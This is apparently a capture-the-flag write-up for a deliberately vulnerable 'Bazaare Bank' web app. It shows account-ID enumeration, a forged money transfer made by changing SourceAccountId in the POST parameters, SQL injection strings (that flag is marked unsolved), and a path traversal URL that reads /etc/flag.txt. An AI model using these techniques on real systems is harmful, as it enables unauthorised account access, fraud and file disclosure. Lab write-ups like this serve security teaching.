



# Bazaare Bank Web App

## Challenge 

	Bazaare Bank - CTF by MWR
	Hack a bank and become a millionaire

	In this challenge you will target the customer portal of the Bazaare Bank, a world leading financial institution.

	Analyse the website and try to achieve the following tasks:

	Flag 1: What's the number (not the ID) of the bank account that contains more than £1,000,000? (the first one you find will do)

	Flag 2: Make a fraudulent money transfer to your account so that your balance is more than £1,000,000.

	Flag 3: Use SQL Injection to extract April.Rowland's password from the database.

	Flag 4: Your last flag is stored in /etc/flag.txt on the application server.

	Enjoy!

---

## Flag 1 Solution

The server is at http://192.168.0.100:8080/

Register for an account and login.

Now we notice that there are a few services

If we create a new account on the account page, we can see our account details

The account details URL will be similar to this:

- http://192.168.0.100/Accounts/Details?id=102

Realise that we can change the ID and view other people's accounts

We can do a simple Python script to do a for-loop GET requests of different 'id's..

I noticed there is an error using CURL or Python to make requests.

	$ python3 flag1.py | html2text
	****** HTTP Status 500 - javax.servlet.ServletException:
	javax.servlet.jsp.JspException: In &lt;parseNumber&gt;, a parse locale can not
	be established ******
	type Exception report
	message javax.servlet.ServletException:_javax.servlet.jsp.JspException:_In
	&lt;parseNumber&gt;,_a_parse_locale_can_not_be_established
	description The_server_encountered_an_internal_error_that_prevented_it_from
	fulfilling_this_request.
	exception
	...

The solution is found here, https://stackoverflow.com/a/41963708. We must add a language header

	Accept-Language: en-GB

And then we can do the for-loop

And we see the script output at id = 88.

	...
	86 70.51
	87 81.29
	88 9000000.0
	89 32.39
	90 76.56
	...

Upon loading the page, we get the flag at http://192.168.0.100/Accounts/Details?id=88

	Account details for account: 93223734
	Actions : Close account | Generate Summary
	Account Type
		Debit
	Account Number
		93223734
	Account Sort Code
		044654
	Status
		Active
	Balance
		£9000000.0

> Flag 1: 93223734

## Flag 2 Solution

Description

> Your task is to make a fraudulent money transfer to your account so that your balance is more than £1,000,000.

> After you've achieved this, when you refresh your Accounts summary page (the one you access from the menu Bank -> Accounts), you should see your flag.

My initial idea was to create new accounts which has a free $10 upon signup, and then transfer it over.

	//url
	http://192.168.0.100/Accounts/New

	//cookies
	fsr.a	1553322564589
	fsr.s	{"v":1}
	JSESSIONID	4023F620CF10AAC6B3FA4905BD05FAAF

	//request
	Request URL:http://192.168.0.100/Accounts/New
	Request method:POST
	Remote address:192.168.0.100:80

	//param
	'accountType':'0'

However, it takes too long and also notice that the sending of money is not verified.

First, we get our account info

	Account Number
	76691775

	Account Sort Code
	930747

As I said, the source account id can simply be changed to id = 88 where we found from Flag 1 solution.

	// POST parameters
	"PaymentType": "0"
	"SourceAccountId": "88" 				# set as flag1 account
	"RecipientAccountNumber": "76691775" 	# set as our account
	"RecipientAccountSortCode: "930747" 	# set as our account
	"Amount": "9000000.0"
	"Interval" : ""
	"SendDate": "Immediately"
	"Reference": ""
	"csrf-token": ""
	"SubmitType": "submit"

And after submitting, we refresh the page

	Wow, you're rich now! Here's your flag: 3a263d1e-1020-4bc6-ba89-d3b56a1bd14f 

> Flag 2: 3a263d1e-1020-4bc6-ba89-d3b56a1bd14f 

## Flag 3 Solution

Description

> Use SQL Injection to extract April.Rowland's password from the database.

Not solved

	April.Rowland
	\' OR password like '%'--
	1 = 1--

	http://192.168.0.100:8080/Reset?token=c2FnaXR0aXMuZmVsaXNAbnVuY2ludGVyZHVtLmNh
	sagittis.felis@nuncinterdum.ca

No flag :(

## Flag 4 Solution

Back to the account info, we see that we can do a `Generate Summary`.

There is a weird experimental file manager

	Direct Link:  http://192.168.0.100/Accounts/Summary?id=2
	File Manager: http://192.168.0.100/ResourceController?id=GeneratedReports/2.pdf

We realise the file manager is vulnerable to path traversal

Flag is at `/etc/flag.txt` so go to this link

http://192.168.0.100/ResourceController?id=../../../../../../etc/flag.txt

	Well done! The value of this flag is the word 'perseverance'.

> Flag 4: perseverance
